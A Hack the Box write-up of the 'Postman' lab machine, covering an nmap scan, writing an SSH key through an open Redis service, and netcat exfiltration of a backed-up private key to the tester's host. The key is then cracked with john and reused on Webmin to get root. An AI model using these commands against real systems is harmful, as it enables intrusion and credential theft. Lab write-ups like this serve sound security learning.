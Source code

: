 +++
author = "Nick"
categories = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
date = 2020-03-14T10:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/03/postman.png"
slug = "hack-the-box-postman"
summary = "Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!"
tags = ["hack the box", "webmin", "redis", "ssh2john", "reverse shell", "john"]
title = "Hack the Box - Postman"
url = "/hack-the-box-postman"

+++


Welcome back! Today we are doing the Hack the Box machine, Postman. It's a Linux machine listed as easy. Let's jump in!

As normal, we start with an ```nmap``` scan: 

```nmap -sC -sV -T4 -p- -oA all_scan 10.10.10.160```

Here are our results:
```
Nmap scan report for 10.10.10.160
Host is up (0.053s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.88 seconds
```

Some interesting results, we see ```Redis``` and ```Webmin``` being hosted. Let's see what is on port 80 first.

We are greeted by a basic landing page. Nothing really in the source either. We will now see what is on port 10000. When we browse there we are told that we need to go to ```Postman:10000``` in order to view whats going on. So we add ```postman``` to our host file and browse over.

![](/images/2019/12/image-23.png)

We see a Webmin login page.

![](/images/2019/12/image-24.png)

We try the standard credentials and they don't work. A quick ```searchsploit``` gives us some results.

![](/images/2019/12/image-25.png)

However none of the RCE's work and the others are authenticated exploits. With a seemingly dead end there, we look to the ```Redis``` port. Some quick googling shows [there is a vulnerablity here](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html). So to fully leverage this, we'll need the ```Redis-CLI``` tools installed. Here's a [handy link](https://codewithhugo.com/install-just-redis-cli-on-ubuntu-debian-jessie/) for that!

With our tools installed we can now replicate this exploit. The only catch is, we don't know a user. If we google around enough we find some posts about people having a ```/var/lib/redis``` location. We can use that as our starting point. If there is a file with that name, we can hope there might be a ```.ssh``` directory too, since you know, this is a CTF ;).

We connect via ```redis-cli``` and issue the following command to check the directory.

Command:
```config set dir /var/lib/redis```

![](/images/2019/12/image-26.png)

Looks like it is a viable location. We repeat with the ```.ssh``` location.

![](/images/2019/12/image-27.png)

That too worked. So we can follow the steps in our exploit! First we generate a new ssh key with ```ssh-keygen```.

![](/images/2019/12/keygen.gif)

We then pad the key with some spaces. Then read it to memory and dump it to the ```authorized_keys``` file accoring to our exploit document.

![](/images/2019/12/redis_exploit.gif)

Now we should be able to SSH in as redis.

![](/images/2019/12/image-28.png)

Success! We now can see if we have access to user.txt but we don't. So we download ```linenum``` and start enumerating. One file is of interest. ```id_rsa.bak```.

![](/images/2019/12/image-29.png)

We then transfer this file back to our machine. We can use ```netcat``` for this:

On our attacking machine we spin up a listener:
```nc -l -p 9999 > ssh_file.tgz < /dev/null```.

On our server we send the file:
```cat id_rsa.bak | nc 10.10.14.119 9999```

Once we have the file, we can send it through ```ssh2john``` to convert it to a proper format for cracking.

![](/images/2019/12/image-30.png)

We can now send this file into ```john``` and use ```rockyou.txt``` to hopefully crack it.

Command:
```john --wordlist=/usr/share/wordlists/rockyou.txt stolen_key```

![](/images/2019/12/john.gif)

We get a password of ```computer2008```. We can switch back to our redis ssh session and use ```su Matt``` and the password we just found to get user access and the ```user.txt``` file. We enumerate a bit more as Matt now but don't see all that much. However, thinking like a user might be good here. This password might be reused. Head over to the Webmin portal with those credentials and we have access!

This means we can use one of our authenticated exploits we saw earlier to elevate. In this case we'll just go down the list, the first is the ```webmin_packageup_rce```.  We load the module and set our options. We require a few this time, ```Password```, ```rhosts```, ```ssl```, ```username``` and ```lhost```

![](/images/2019/12/image-22.png)

We get all our settings set and let it rip!

![](/images/2019/12/postman_root.gif)

There we have it, root access!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

